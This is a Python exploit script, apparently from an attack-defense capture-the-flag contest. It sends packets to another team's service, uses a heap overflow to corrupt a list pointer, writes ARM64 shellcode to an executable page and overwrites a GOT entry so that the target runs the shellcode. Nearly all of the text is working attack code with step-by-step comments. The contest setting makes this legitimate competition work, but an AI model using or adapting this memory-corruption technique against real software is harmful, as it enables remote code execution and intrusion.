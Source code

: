```python
def p(_, id, id2, content):
    global cli
    print("Sending command {:x} {:x}".format(id, id2))
    filename = f"/home/team7/team_7/client/packet_tmp_PWN_{time.time()}"
    f = open(filename, 'wb')
    f.write(bytes([id]))
    f.write(bytes([id2]))
    f.write(bytes([len(content)]))
    f.write(content)
    # f.write(b"\x00" * (0x400 - len(content) - 3))
    f.close()
    output = b'RATE_LIMIT'
    while b'RATE_LIMIT' in output:
        time.sleep(1)
        output = subprocess.check_output(f'/home/team7/team_7/client/client -k 5647008472405673096 -f /home/team7/team_7/other_teams_keys/team_{TEAM_ID}_rsa_priv.pem -d {filename} -p 31337 -a 10.0.0.101 -i {TEAM_ID} -s', shell=True, cwd = '/home/team7/team_7/client/')
        print("[SB] Received {}".format(output))


    os.remove(filename)

def do_pwn():
    f = None
    # Prepare two packet_entry in the heap
    p(f, 0, 0x10, b"X" * 5)
    p(f, 1, 0x20, b"A")

    # Vulnerability to grow the size to reach offset of next field = 0x20 - 0x13
    p(f, 0, 0x10, b"X" * 8)
    p(f, 0, 0x10, b"X" * 11)
    p(f, 0, 0x10, b"X" * 14)
    p(f, 0, 0x10, b"X" * 17)


    # RWX page address
    shellcode_addr = 0x800000
    # Got PLT address of perror
    got_addr = 0x412010 - 0x10

    # Corrupt next pointer to allow arb write to RWX page
    p(f, 0, 0x10, b"X" * 13 + (p64(shellcode_addr + 0x10)[:7]))
    # shellcode page full of nullbytes so subid is 0
    #shellcode_data  = b"\x00\x10\xa0\xd2\x81\x31\x82\xd2\x01\x08\xa0\xf2\x20\x00\x3f\xd6\x01\x00\x00\x14" # mov x0, 0x800000; movz x1, #0x118c; movk x1, #0x40, lsl #16; blr x1; b #0x14;
    shellcode_data = b"\x00\x10\xa0\xd2\x81\x31\x82\xd2\x01\x08\xa0\xf2\x20\x00\x3f\xd6\x00\x00\x20\xd4"
    # Use vulnerability to increase size
    for i in range(1,(len(shellcode_data)//3)+1):
        p(f, 0x01, 0, b"\xcc" * (3*i))
    # Then write full shellcode
    p(f, 0x01, 0, b'\xcc' + shellcode_data)

    # Corrupt next pointer to allow arb write to GOT PLT page
    p(f, 0, 0x10, b"X" * 13 + p64(got_addr))
    # Write our shellcode address to GOT entry of sprintf (called at the end of message processing, no need to send another message to trigger RCE)
    p(f, 0x01, 0x09, b'\xcc' * 0x15 + p64(shellcode_addr + 0x10 + 0x13 + 1))

do_pwn()
```
